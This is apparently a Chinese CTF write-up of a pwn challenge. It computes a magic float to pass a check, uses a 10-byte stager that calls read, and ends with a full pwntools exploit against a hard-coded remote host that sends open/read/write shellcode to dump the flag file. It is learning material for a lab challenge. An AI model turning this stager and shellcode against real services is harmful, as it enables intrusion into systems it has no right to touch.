


主要的突破点在sub\_18BC函数中，这里需要我们输入的 浮点数 的 8 字节二进制表示与 “0xD0E0A0D0B0E0E0F” 完全相等（小端）。可以用python的struct模块来计算

import struct

x = 0xD0E0A0D0B0E0E0F

d = struct.unpack('<d', struct.pack('<Q', x))\[0\]

print(d)  # 8.592564544313935e-246计算后的结果



进入之后，给了你两个选项，主要在前一个选项中，这部分给你开辟了一块 内存 空间，可能是给你放你的shellcode，后面分析，一开始注入了一些其实数据但其实是清空寄存器，程序这里给了我们10字节的自由输入空间，由于分配的10字节空间太少我们无法构造完整的shellcode，所以我们考虑如何调出read的系统调用，这样我们可以续写shellcode，由于空间分配少，我们去考虑一些字节占用少的指令比，这里用到pop，在这之后只需要计算好输入位置到执行下一条指令的偏移量，覆盖后注入新的 shellcode 即可 。

EXP如下

```cobol
from pwn import *

context.update(arch="amd64", os="linux", log_level="debug")

TARGET_HOST = "101.245.98.115"
TARGET_PORT = 26100

def launch():

    return remote(TARGET_HOST, TARGET_PORT)

def prepare_menu(io):

    io.sendlineafter(b"3.exit", b"2")
    io.sendlineafter(b"input:", b"8.592564544313935e-246")
    io.sendlineafter(b"Make a choice:", b"1")

def fire_gadget(io):
    gadget_bytes = bytes.fromhex("5b5b5a5b585e0f05")
    io.send(gadget_bytes)

def send_shellcode(io):

    shell_asm = """
        push 0x67616c66      ;
        mov  rdi, rsp
        xor  esi, esi
        push 2
        pop  rax
        syscall              ;

        mov  rdi, rax
        mov  rsi, rsp
        mov  edx, 0x100
        xor  eax, eax
        syscall              ;

        mov  edi, 1
        mov  rsi, rsp
        push 1
        pop  rax
        syscall              ;
    """

    nop_pad = b"\x90" * 0x32
    shell_bytes = asm(shell_asm)
    payload = nop_pad + shell_bytes

    io.send(payload)

def main():
    io = launch()
    prepare_menu(io)
    fire_gadget(io)
    send_shellcode(io)
    io.interactive()

if __name__ == "__main__":
    main()
```
